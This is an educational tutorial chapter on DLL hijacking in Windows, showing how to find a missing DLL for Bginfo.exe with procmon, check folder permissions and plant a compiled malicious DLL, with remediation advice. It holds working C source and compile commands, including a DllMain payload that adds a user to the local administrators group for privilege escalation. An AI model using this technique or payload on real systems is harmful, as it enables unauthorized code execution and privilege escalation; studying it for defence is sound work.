

## 6. DLL hijacking in Windows. Simple C example.

{width="75%"}

What is DLL hijacking? DLL hijacking is technique when we tricking a legitimate/trusted application into loading an our malicious DLL.

In Windows environments when an application or a service is starting it looks for a number of DLL's in order to function properly. Here is a diagram showing the default DLL search order in Windows:    

{width="75%"}

In our post, we will only consider the simplest case: the directory of an application is writable. In this case, any DLL loaded by the application can be hijacked because it’s the first location used in the search process.

### Step 1. Find process with missing DLLs

The most common way to find missing Dlls inside a system is running [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, setting the following filters:   

{width="75%"}

which will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL:    

{width="75%"}

In our example, the process `Bginfo.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `Riched32.dll`

### Step 2. Check folder permissions

Let's go to check folder permissions:
```cmd
icacls C:\Users\user\Desktop\
```

{width="75%"}

According to the [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) we have write access to this folder.   

### Step 3. DLL hijacking

Firstly, let's go to run our `bginfo.exe`:    
{width="75%"}

Therefore if I plant a DLL called `Riched32.dll` in the same directory as `bginfo.exe` when that tool executes so will my malicious code. For simplicity, I create DLL which just pop-up a message box:   

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="75%"}

Then rename as `Riched32.dll` and copy to `C:\Users\user\Desktop\` my malicious DLL.   

{width="75%"}

And now launch `bginfo.exe`:   

{width="75%"}

{width="75%"}

As you can see, our malicious logic is executed:

So, `bginfo.exe` and malicious `Riched32.dll` in the same folder **(1)**    
Then launch `bginfo.exe` **(2)**    
Message box is popped-up! **(3)**   

### Remediation

Perhaps the simplest remediation steps would be simply to ensure that all installed software goes into the protected directory `C:\Program Files` or `C:\Program Files (x86)`. If software cannot be installed into these locations then the next easiest thing is to ensure that only Administrative users have "create" or "write" permissions to the installation directory to prevent an attacker from deploying a malicious DLL and thereby breaking the exploitation.

### Privilege escalation

DLL hijacking can be used for more than just executing code. It can also be used to gain persistence and privilege escalation:    

Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.   
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path).   

Then replace our code:
```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    system("cmd.exe /k net localgroup administrators user /add");
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

*For x64 compile with: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*For x86 compile with: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Further, all steps are similar.

### Conclusion

But in all cases, there is a caveat.   

Note that in some cases the DLL you compile must export multiple functions to be loaded by the victim process. If these functions do not exist, the binary will not be able to load them and the exploit will fail.    

So, compiling custom versions of existing DLLs is more challenging than it may sound, as a lot of executables will not load such DLLs if procedures or entry points are missing. Tools such as [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) can be used to enumerate all external function names and ordinals of the legitimate DLLs. Ensuring that our compiled DLL follows the same format will maximise the chances of it being loaded successfully.    

In the future I will try to figure out this, and I will try create python script which create `.def` file from target original DLL.   

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

I've added the vulnerable bginfo (version 4.16) to github if you'd like to experiment.
